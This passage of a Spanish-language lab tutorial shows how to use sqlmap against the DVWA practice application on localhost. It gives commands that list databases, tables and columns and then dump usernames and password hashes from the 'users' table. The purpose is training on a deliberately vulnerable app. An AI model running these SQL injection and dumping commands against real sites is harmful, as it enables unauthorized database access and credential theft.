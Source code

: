 ➡️ Muestra todas las bases de datos.

---

#### ✅ Paso 3: Seleccionar una base de datos y ver sus tablas

```bash
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=xxxxxx; security=low" -D dvwa --tables
```

➡️ Muestra las tablas dentro de la base `dvwa`.

---

#### ✅ Paso 4: Ver las columnas de una tabla

```bash
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=xxxxxx; security=low" -D dvwa -T users --columns
```

---

#### ✅ Paso 5: Extraer datos

```bash
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=xxxxxx; security=low" -D dvwa -T users -C user,password --dump
```

📥 Esto descarga los nombres de usuario y contraseñas (hashes).

---

### 🧪 Ejemplo completo paso a paso

#### 1. Inicias DVWA y haces login

→ Guarda tus cookies (usa Burp o el navegador con extensiones como EditThisCookie)

#### 2. Prueba en terminal

```bash
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=abcdef12345; security=low" --dbs
```

Resultado:

```
[*] dvwa
[*] information_schema
```

#### 3. Extrae las tablas de `dvwa`

```bash
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=abcdef12345; security=low" -D dvwa --tables
```

